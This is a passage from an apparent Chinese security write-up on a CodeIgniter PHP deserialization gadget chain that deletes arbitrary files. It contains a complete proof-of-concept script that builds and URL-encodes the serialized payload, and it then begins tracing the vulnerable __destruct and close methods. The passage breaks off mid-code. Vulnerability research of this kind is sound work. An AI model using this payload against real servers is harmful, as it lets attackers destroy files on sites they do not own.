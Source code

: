 ## 0x01 背景介绍
之前看了一篇文章是将CodeIgniter反序列化调用链的。原文：https://www.freebuf.com/vuls/269597.html。
文章作者提出了一条反序列化的调用链，大体的意思就是通过反序列化，利用恶意的MYSQL服务器来读取服务器文件的效果。这条利用链要求php7.2的环境，其他都不行。要求不可谓不苛刻。
或许有小伙伴会问，这调利用链前面不是可以构造SQL语句执行吗？为什么不进行SQL注入呢？答案是，这条利用链里面连接的数据库是自己远程的MYSQL，难道自己注自己吗？
我的目标是找出新的反序列化利用链？可用性要更好的？

## 0x02 任意文件删除的反序列化利用链
先直接上POC，如果不想看分析的拿着POC就可以走了。
```<?php

namespace CodeIgniter\Cache\Handlers;

class RedisHandler {
	public $redis;
	function __construct($redis){
		$this->redis = $redis;
	}
}

namespace CodeIgniter\Session\Handlers;
class MemcachedHandler {
	public $memcached;
	public $lockKey;
	function __construct($memcached){
		$this->memcached = $memcached;
		$this->lockKey = "111.txt";
	}
}

namespace CodeIgniter\Cache\Handlers;

class FileHandler{
	public $prefix;
	public $path;
	function __construct(){
		$this->prefix = "";
		$this->path = "E:/test/test/";
	}
}

$a = serialize(new \CodeIgniter\Cache\Handlers\RedisHandler(new \CodeIgniter\Session\Handlers\MemcachedHandler(new \CodeIgniter\Cache\Handlers\FileHandler())));
echo $a;
echo "<hr>";
echo urlencode($a);
```
这条链子比较短，里面只涉及到三个类的调用。
第一个是/system/Cache/Handlers/RedisHandler.php类的__destruct方法，$this->redis未经合适的验证，直接调用了close方法
```	public function __destruct()
	{
		if ($this->redis) // @phpstan-ignore-line
		{
			$this->redis->close(); //$this->redis未经合适的验证，直接调用了close方法
		}
	}
```
第二个是/system/Session/Handlers/MemcachedHandler.php类中的close方法，$this->memcached未经过合适的验证，直接调用了delete方法
```	public function close(): bool
	{
		if (isset($this->memcached))
		{
			isset($this->lockKey) && $this->memcached->delete($this->lockKey);

```